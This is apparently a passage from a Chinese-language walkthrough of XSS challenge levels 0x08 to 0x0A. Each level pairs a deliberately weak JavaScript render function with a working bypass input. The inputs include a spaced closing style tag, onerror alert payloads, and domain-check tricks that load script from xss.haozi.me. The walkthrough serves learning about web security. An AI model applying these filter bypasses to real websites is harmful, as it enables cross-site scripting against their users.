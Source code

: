 
## 0x08
匹配 `</style>`
加一个空格就可以绕过但是html是可以解析的
servercode
```js
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```
input
```html
</style ><script>alert(1);</script>
```

## 0x09

servercode
```js
function render (input) {
  let domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${input}"></script>`
  }
  return 'Invalid URL'
}
```
input
```html
https://www.segmentfault.com"></script><img src="" onerror="alert(1) 
https://www.segmentfault.com1" onerror="alert(1) 
```

## 0x0A #文件包含

servercode
```js
function render (input) {
  function escapeHtml(s) {
    return s.replace(/&/g, '&amp;')
            .replace(/'/g, '&#39;')
            .replace(/"/g, '&quot;')
            .replace(/</g, '&lt;')
            .replace(/>/g, '&gt;')
            .replace(/\//g, '&#x2f')
  }

  const domainRe = /^https?:\/\/www\.segmentfault\.com/
  if (domainRe.test(input)) {
    return `<script src="${escapeHtml(input)}"></script>`
  }
  return 'Invalid URL'
}
```
input
```html
https://www.segmentfault.com@xss.haozi.me/j.js
<!-- 理论上将是可以这样来引入有漏洞的页面的，但是这里似乎是有什么安全策略没办法跳转，用下面的那个可以重定向过去 -->

https://www.segmentfault.com.haozi.me/j.js
```